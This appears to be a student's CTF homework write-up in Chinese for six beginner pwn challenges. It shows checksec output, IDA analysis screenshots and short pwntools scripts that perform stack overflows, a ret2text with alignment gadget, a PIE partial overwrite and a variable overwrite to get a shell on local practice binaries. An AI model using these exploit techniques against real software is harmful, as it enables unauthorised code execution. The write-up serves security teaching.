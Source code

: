 # 第一次课后作业

## shop
checksec一下

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737623646436-03506212-0b46-45b5-b9d5-50896acca48e.png)

64位 开了很多保护

拖进ida分析

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737624016635-41b5757a-962e-4deb-9d99-2f31a06147d9.png)

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737624099416-5da92c2e-515f-443c-a741-63c447dd53d3.png)

看到提示，是一个整数溢出，那把钱变成负数
（买别的东西如果钱不够的话会提示无法购买，但是选项3会无条件扣款，所以钱低于50时选一个3）

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737624503873-2989cab0-358f-4a07-9a07-4fd109df33cb.png)

我这里买了一次1两次2一次3，之后再去1购买shell即可

## ret2text

checksec一下

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737624667282-e85985e6-a171-465c-a30a-dc8468d8ffc3.png)

64位，没开栈保护，没开pie保护

拖进ida

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737624765128-4a90b6fc-fc26-4b84-aa25-3bced70a4f4d.png)

看到提示，找到非四级单词

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737624842771-46c0dc13-58de-46de-a284-b5adb9042f1c.png)

找到后门函数

经典栈溢出，开始编写exp（64位注意栈对齐TnT）

```python
from pwn import *

io = process("./ret2text")

ret = 0x000000000040101a
address = 0x4014ba
padding = 0x40 + 8

payload = b'a' * padding + p64(ret) + p64(address)
io.sendline(payload)

io.interactive()
```
![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625100599-4a5565db-3b27-4a77-ab0c-0e396708f264.png)
打通本地

## real_login

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625188879-faa8f997-f4cf-4678-92a0-41cdcde10e7f.png)

64位，开了一堆保护

拖进ida

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625273665-07a6f2f1-85f6-4f26-abd0-8df00d812194.png)

在func函数中看到输入password就可以打通，查看password

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625357697-4e0a2df9-2ca1-44b7-b825-1e7486cf23f1.png)

输入，打通

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625436312-41e4b724-f85e-46e7-a7c1-0082fac17c17.png)

## pie

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625508673-0cc42195-471b-4022-9077-98681720c6dc.png)

开了pie保护，地址是随机的（但是后三位地址不变）

拖进ida，发现存在栈溢出漏洞

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737625749073-a201b5c7-bc0b-484a-acb2-c361818bff38.png)

找到后门函数以及地址

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626001926-248b7126-4c2a-4745-8b86-27ccf0e80593.png)

编写exp

```python
from pwn import *

io = process("./pie")

padding = 0x20 + 8

payload = b'a'*padding + b'\x6c'

io.sendline(payload)
io.interactive()
```
打通

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626164236-990c6e20-7ab3-4172-8730-fada3a2b0156.png)

## buffer_overflow

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626252447-b0c3f562-10fe-4d81-ac98-190c9dc53f5e.png)

64位，开了一堆保护

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626318841-a583bda9-3ed6-4cef-b07b-a678b132777c.png)

只要v5和ans一样就可以获取shell

但是v5无法靠输入修改，所以编写脚本把v5直接覆盖

exp：
```python
from pwn import *

io = process('./buffer_overflow')

payload = b'a'* 0x46 + b'Limiter and Wings are beautiful girls!'
io.send(payload)

io.interactive()
```
打通

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626563439-02347b83-21bb-4a45-b413-d433fcb65c9b.png)

## game

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626669413-fa2e4723-d05f-40df-b484-45486e3dae5c.png)

64位，没开栈保护

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626753325-0dc557c0-c402-4dd8-bb57-471deef6c5de.png)

发现v1累加到999就可以获取shell

编写脚本暴力发送直到v1达到999
```python
from pwn import *

io = process("./game")

i = 0
while i <= 999:
    io.sendlineafter(b'pls input you num:', b'9')
    i += 9

io.interactive()
```
打通

![](https://cdn.nlark.com/yuque/0/2025/png/52509818/1737626889726-977db26f-d640-4503-aa84-cdf4959f0c67.png)
